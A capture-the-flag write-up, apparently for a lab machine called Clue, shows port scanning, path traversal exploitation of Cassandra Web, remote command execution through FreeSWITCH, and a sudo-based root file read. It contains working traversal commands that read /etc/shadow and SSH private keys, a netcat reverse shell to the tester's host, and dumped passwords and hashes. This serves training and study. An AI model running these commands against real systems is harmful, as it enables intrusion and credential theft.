Nmap scan
```sh
 nmap -p- --min-rate 5000 -T4 -Pn 192.168.164.240
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-23 15:14 IST
Nmap scan report for 192.168.164.240
Host is up (0.23s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3000/tcp open  ppp
8021/tcp open  ftp-proxy

Nmap done: 1 IP address (1 host up) scanned in 40.39 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 22,80,139,445,3000,8021 192.168.164.240
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-23 15:16 IST
Nmap scan report for 192.168.164.240
Host is up (0.18s latency).

PORT     STATE SERVICE          VERSION
22/tcp   open  ssh              OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
|_  256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
80/tcp   open  http             Apache httpd 2.4.38
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: 403 Forbidden
139/tcp  open  netbios-ssn      Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn      Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3000/tcp open  http             Thin httpd
|_http-title: Cassandra Web
|_http-server-header: thin
8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket
Service Info: Hosts: 127.0.0.1, CLUE; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-02-23T09:46:22
|_  start_date: N/A
|_clock-skew: mean: 1h40m03s, deviation: 2h53m14s, median: 1s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: clue
|   NetBIOS computer name: CLUE\x00
|   Domain name: pg
|   FQDN: clue.pg
|_  System time: 2026-02-23T04:46:24-05:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.47 seconds
```
Port 80 turned out that it's not accessible.

And there's a directory found by directories enumeration `/backup` is also not accessible to us.


## Web Enumeration (port 3000)

A distributed database management called "Cassandra" runs on port 3000.

And there is an exploit that seems to be promising, and I am going to give it a shot and see if it works or not.

After inspecting the payload code, I know that the attacker can perform directory traversal by adding dots and slashes in the URL.


It works! And I can see there are two users on the machine: "cassie" and "anthony".
```python
python3 49362.py -p 3000 192.168.164.240 /etc/passwd
```


According to the comment on the exploit, credentials can be revealed by viewing `/proc/self/cmdline`, and it does.

```python
python3 49362.py -p 3000 192.168.164.240 /proc/self/cmdline
```

`cassie : SecondBiteTheApple330`
But turn out the password can not be used to login into SSH.

After viewing the SSH config file (the same way as viewing `passwd` files), I know **only root and Anthony** can log in to SSH.
 Let’s check `/etc/ssh/sshd_config` .
 ```python
 python3 49362.py -p 3000 192.168.164.240 /etc/ssh/sshd_config
 ```
 

## FreeSWITCH Enumeration (port 8021)

I can also find an exploit for FreeSWITCH. Even though I have yet to learn the version, it's not harmful to give it a try.




Let’s try with the default password first. Okay, it seems like the password is wrong. Using Cassie’s password still won’t work as well.
After some research, I found a link here to demonstrate how to change the socket password. It clearly says the password is stored in `/etc/freeswitch/autoload_configs/event_socket.conf.xml`

```python
python3 49362.py -p 3000 192.168.164.240 /etc/freeswitch/autoload_configs/event_socket.conf.xml
```


 I exposed another password: `StrongClueConEight021`
 And I changed the default password in freeswitch exploit to the one I found.
 
 It works. After specifying the legit password, I can run commands on the machine.
 
 After running `netcat` reverse shell, I am in the machine now.
 ```python
 python3 freeswitch-exploit.py 192.168.164.240 'nc -nv 192.168.45.226 3000 -e /bin/bash'
 ```
 



## Post Enumeration and Exploitation

After obtaining an interactive shell, I can switch to cassie with the password: `SecondBiteTheApple330`.

And then I find that cassie can run `cassandra-web` as root without a password.

We can run cassandra-web without password. Well I mean, we already know that cassandra-web is vulnerable to LFI, but we can’t read some stuff because lack of privilege. If we can run cassandra-web as root, can we read stuff as root as well?

Let’s try.
```sh
sudo -u root /usr/local/bin/cassandra-web -B 0.0.0.0:1337 -u cassie -p SecondBiteTheApple330
```


Okay, let’s see if we can indeed access it. The server is running on 0.0.0.0:9999 but I can’t access it from my Kali machine.

It is indeed hosted, and it turns out we can only access it from within the machine.

I tried opening a python server then transfer the exploit to the target machine, but it wasn’t working for some reason. But after reading the exploit, it’s pretty easy to replicate.

So it’s just the url + a huge amount of ‘../’, so we can replicate it by doing a GET request using curl. We can achieve it by something like :
```sh 
curl --path-as-is http://0.0.0.0:1337/../../../../../../../../etc/shadow
```
### ✅ `--path-as-is`

**Important flag.**

Normally, curl **normalizes URLs**:

- Removes `../`
- Cleand up paths
-Example:

/../../etc/passwd → /etc/passwd

That would defeat the exploit.

👉 `--path-as-is` tells curl:

> ❗ "Send the path EXACTLY as written — do NOT normalize it."

Without this flag, the traversal attack might fail.


Indeed. Now we can read stuff as root.
```sh
root:$6$kuXiAC8PIOY2uis9$LrTzlkYSlY485ZREBLW5iPSpNxamM38BL85BPmaIAWp05VlV.tdq0EryiFLbLryvbsGTx50dLnMsxIk7PJB5P1:19209:0:99999:7:::  
cassie:$6$/WeFDwP1CNIN34/z$9woKSLSZhgHw1mX3ou90wnR.i5LHEfeyfHbxu7nYmaZILVrbhHrSeHNGqV0WesuQWGIL7DHEwHKOLK6UX79DI0:19209:0:99999:7:::  
anthony:$6$01NV0gAhVLOnUHb0$byLv3N95fqVvhut9rbsrYOVzi8QseWfkFl7.VDQ.26a.0IkEVR2TDXoTv/KCMLjUOQZMMpkTUdC3WIyqSWQ.Y1:19209:0:99999:7::
```
Let’s try to see if root have id_rsa.
```sh
 curl --path-as-is http://0.0.0.0:1337/../../../../../../../../root/.ssh/id_rsa
```


Nothing.
We'll look for anthony.
```sh
curl --path-as-is http://0.0.0.0:1337/../../../../../../../../../home/anthony/.ssh/id_rsa
```


Anthony have id_rsa.
We can’t even SSH using it to anthony. BUT WE CAN DO IT AS ROOT. WTF is this machine.
We simply copy it and made a new file named `id_rsa`.

We got the flags.

